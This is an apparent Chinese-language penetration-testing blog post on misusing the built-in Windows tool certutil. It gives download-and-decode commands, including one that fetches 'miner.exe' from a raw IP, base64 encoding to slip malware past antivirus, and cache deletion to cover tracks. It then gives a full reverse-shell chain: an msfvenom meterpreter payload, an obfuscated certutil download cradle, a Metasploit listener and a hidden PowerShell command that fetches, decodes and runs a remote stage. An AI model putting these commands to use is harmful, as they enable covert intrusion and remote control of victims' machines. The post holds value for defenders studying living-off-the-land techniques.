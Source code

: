 +++
title = 'Certutil在渗透中的使用'

description = "虽然不是很厉害但至少开始写了"

tags = [ "横向移动" ]

date = 2024-11-14T16:06:31+08:00

+++

CertUtil是一个Windows的内置程序，用于管理Windows中的证书，使用此程序，可以在Windows中安装，备份，删除，管理和执行与证书和证书存储相关的各种功能。



经典用法是处理Base64编码的数据：

```
C:\Windows\Temp> certutil.exe -decode input.txt output.exe
//-decode参数用于将编码的文件解码为其原始的二进制形式
//第一二个必选参数分别为输入文件名、输出文件名
```

也能够从远程URL下载证书或者任何其它文件

语法： “certutil.exe -urlcache -split -f [URL] output.file”

```
certutil.exe -urlcache -split -f http://37.44.212.223/miner.exe C:/Windows/temp/yete.exe
```

`-f` 覆盖现有文件。有值的命令行选项。后面跟要下载的文件 url。•`-split` 保存到文件。无值的命令行选项。加了的话就可以下载到当前路径，不加就下载到了默认路径。•`-URLCache` 显示或删除URL缓存条目。无值的命令行选项。（certutil.exe 下载有个弊端，它的每一次下载都有留有缓存。）

**两种功能进行结合：首先对恶意文件进行base64编码，以绕过AV检测， 然后在使用CertUtil.exe下载后再对其进行解码。**

```
C:\Windows\Temp>certutil.exe -urlcache -split -f "https://hackers.home/badcontent.txt" bad.txt
C:\Windows\Temp>certutil.exe -decode bad.txt bad.exe
```

攻击者为什么喜欢用CertUtil？因为它是Windows内置的程序，CertUtil可能会被列入白名单。其实利用合法的Windows植入恶意软件非常常见，比如Windows regsvr32.exe就是以类似的方式使用。



使用Certutil.exe下载文件，下载完成以后一定记得delete 清理痕迹。

```
C:\> certutil.exe -urlcache -split -f http://lyshark.com/lyshark.log
C:\> certutil.exe -urlcache -split -f http://lyshark.com/lyshark.log delete
```

还可以用来校验hash值，这个之前使用过

```
certutil -hashfile mimikatz.exe MD5    //检验MD5certutil -hashfile mimikatz.exe SHA1 //检验SHA1certutil -hashfile mimikatz.exe SHA256 //检验SHA256
```

**Certutil命令配合PS反弹后门**

PowerShell 混淆框架：https://github.com/danielbohannon/Invoke-CradleCrafter

1.在加载PowerShell脚本之前，先来进行数字签名，运行命令。

```
PS C:\Invoke-CradleCrafter> Set-ExecutionPolicy Bypass
执行策略更改
执行策略可帮助你防止执行不信任的脚本。更改执行策略可能会产生安全风险，如 https:/go.microsoft.com/fwlink/?LinkID=135170
中的 about_Execution_Policies 帮助主题所述。是否要更改执行策略? Y
```

2.使用方法，执行两条命令，加载框架。

```
PS C:\Invoke-CradleCrafter> Import-Module .\Invoke-CradleCrafter.ps1
PS C:\Invoke-CradleCrafter> Invoke-CradleCrafter

Invoke-CradleCrafter

          _____                 _                    ,
          \_   \_ ____   _____ | | _____           /(  __________
           / /\/ '_ \ \ / / _ \| |/ / _ \_____    |  >:==========`
        /\/ /_ | | | \ V / (_) |   <  __/_____|    )(
        \____/ |_| |_|\_/ \___/|_|\_\___|          ""
           ___              _ _        ___           __ _
          / __\ __ __ _  __| | | ___  / __\ __ __ _ / _| |_ ___ _ __
         / / | '__/ _` |/ _` | |/ _ \/ / | '__/ _` | |_| __/ _ \ '__|
        / /__| | | (_| | (_| | |  __/ /__| | | (_| |  _| ||  __/ |
        \____/_|  \__,_|\__,_|_|\___\____/_|  \__,_|_|  \__\___|_|

        Tool    :: Invoke-CradleCrafter
        Author  :: Daniel Bohannon (DBO)
        Twitter :: @danielhbohannon
        Blog    :: http://danielbohannon.com
        Github  :: https://github.com/danielbohannon/Invoke-CradleCrafter
        Version :: 1.1
        License :: Apache License, Version 2.0
        Notes   :: If(!$Caffeinated) {Exit}

HELP MENU :: Available options shown below:
```

3.MSF攻击主机，生成payload，并将生成好的payload放入网站根目录，保证能够正常访问。

```
[root@localhost ~]# msfvenom -p windows/x64/meterpreter/reverse_tcp \
> lhost=192.168.1.30 lport=8888 -e cmd/powershell_base64 \
> -f psh -o lyshark.txt

[root@localhost ~]# cp -a lyshark.txt  /var/www/html/
[root@localhost ~]# systemctl restart httpd
```

4.powershell 框架设置指定好的URL链接。

```
Invoke-CradleCrafter>  set URL http://lyshark.com/lyshark.txt

Successfully set Url:
http://lyshark.com/lyshark.txt
```

5.分别执行以下命令完成初始化，这里如果报错请添加环境变量。

```
Invoke-CradleCrafter> MEMORY

Choose one of the below Memory options:

[*] MEMORY\PSWEBSTRING          PS Net.WebClient + DownloadString method
[*] MEMORY\PSWEBDATA            PS Net.WebClient + DownloadData method
[*] MEMORY\PSWEBOPENREAD        PS Net.WebClient + OpenRead method
[*] MEMORY\NETWEBSTRING         .NET [Net.WebClient] + DownloadString method (PS3.0+)
[*] MEMORY\NETWEBDATA           .NET [Net.WebClient] + DownloadData method (PS3.0+)
[*] MEMORY\NETWEBOPENREAD       .NET [Net.WebClient] + OpenRead method (PS3.0+)
[*] MEMORY\PSWEBREQUEST         PS Invoke-WebRequest/IWR (PS3.0+)
[*] MEMORY\PSRESTMETHOD         PS Invoke-RestMethod/IRM (PS3.0+)
[*] MEMORY\NETWEBREQUEST        .NET [Net.HttpWebRequest] class
[*] MEMORY\PSSENDKEYS           PS SendKeys class + Notepad (for the lulz)
[*] MEMORY\PSCOMWORD            PS COM object + WinWord.exe
[*] MEMORY\PSCOMEXCEL           PS COM object + Excel.exe
[*] MEMORY\PSCOMIE              PS COM object + Iexplore.exe
[*] MEMORY\PSCOMMSXML           PS COM object + MsXml2.ServerXmlHttp
[*] MEMORY\PSINLINECSHARP       PS Add-Type + Inline CSharp
[*] MEMORY\PSCOMPILEDCSHARP     .NET [Reflection.Assembly]::Load Pre-Compiled CSharp
[*] MEMORY\CERTUTIL             Certutil.exe + -ping Argument
```

```
Invoke-CradleCrafter\Memory> CERTUTIL

[*] Name          :: Certutil
[*] Description   :: PowerShell leveraging certutil.exe to download payload as string
[*] Compatibility :: PS 2.0+
[*] Dependencies  :: Certutil.exe
[*] Footprint     :: Entirely memory-based
[*] Indicators    :: powershell.exe spawns certutil.exe certutil.exe 
[*] Artifacts     :: C:\Windows\Prefetch\CERTUTIL.EXE-********.pf AppCompat Cache
```

```
Invoke-CradleCrafter\Memory\Certutil> ALL


Choose one of the below Memory\Certutil\All options to APPLY to current cradle:

[*] MEMORY\CERTUTIL\ALL\1       Execute ALL Token obfuscation techniques (random order)


Invoke-CradleCrafter\Memory\Certutil\All> 1

Executed:
  CLI:  Memory\Certutil\All\1
  FULL: Out-Cradle -Url 'http://lyshark.com/lyshark.txt' -Cradle 17 -TokenArray @('All',1)

Result:
SV 1O6 'http://lyshark.com/lyshark.txt';.(Get-Command *ke-*pr*) ((C:\Windows\System32\certutil /ping (Get-Item Variable:\1O6).Value|&(Get-Variable Ex*xt).Value.InvokeCommand.(((Get-Variable Ex*xt).Value.InvokeCommand.PsObject.Methods|?{(Get-Variable _ -ValueOn).Name-ilike'*and'}).Name).Invoke((Get-Variable Ex*xt).Value.InvokeCommand.(((Get-Variable Ex*xt).Value.InvokeCommand|GM|?{(Get-Variable _ -ValueOn).Name-ilike'*Com*e'}).Name).Invoke('*el*-O*',$TRUE,1),[Management.Automation.CommandTypes]::Cmdlet)-Skip 2|&(Get-Variable Ex*xt).Value.InvokeCommand.(((Get-Variable Ex*xt).Value.InvokeCommand.PsObject.Methods|?{(Get-Variable _ -ValueOn).Name-ilike'*and'}).Name).Invoke((Get-Variable Ex*xt).Value.InvokeCommand.(((Get-Variable Ex*xt).Value.InvokeCommand|GM|?{(Get-Variable _ -ValueOn).Name-ilike'*Com*e'}).Name).Invoke('*el*-O*',$TRUE,1),[Management.Automation.CommandTypes]::Cmdlet)-SkipLa 1)-Join"`r`n")

Choose one of the below Memory\Certutil\All options to APPLY to current cradle:

[*] MEMORY\CERTUTIL\ALL\1       Execute ALL Token obfuscation techniques (random order)
```

6.将上方混淆后的内容保存为 crt.txt 然后进行encode加密

```
C:\Users\lyshark\Desktop>certutil -encode crt.txt crt.cer

输入长度 = 912
输出长度 = 1310
CertUtil: -encode 命令成功完成。
```

7.将生成的 crt.cer放入服务器的根目录下，保证能够访问，然后运行msfconsole控制台，并侦听事件。

```
[root@localhost ~]# cp -a crt.cer /var/www/html/

msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.1.30
lhost => 192.168.1.7
msf5 exploit(multi/handler) > set lport 8888
lport => 8888
msf5 exploit(multi/handler) > exploit -j -z
```

8.最终靶机执行，以下命令。

```
powershell.exe ‐Win hiddeN ‐Exec ByPasS add‐content ‐path %APPDATA%\crt.cer (New‐Object Net.WebClient).DownloadString('http://lyshark.com/crt.cer'); certutil ‐decode %APPDATA%\crt.cer %APPDATA%\stage.ps1 & start /b c
md /c powershell.exe ‐Exec Bypass ‐NoExit ‐File %APPDATA%\stage.ps1 & start /b cmd /c del %APPDATA%\crt.cer
```

这种情况下powershell脚本不会落地

没想到一个校验证书的程序能有这么多的功能...

*参考：*

[干货 | Certutil在渗透中的利用和详解](https://cloud.tencent.com/developer/article/1850744)

[certutil 命令配合PS反弹后门]((https://www.cnblogs.com/LyShark/p/10994300.html))

[攻击者利用CertUtil.exe植入恶意软件](https://wsygoogol.github.io/2018/12/17/%E6%94%BB%E5%87%BB%E8%80%85%E5%88%A9%E7%94%A8CertUtil-exe%E6%A4%8D%E5%85%A5%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6/)
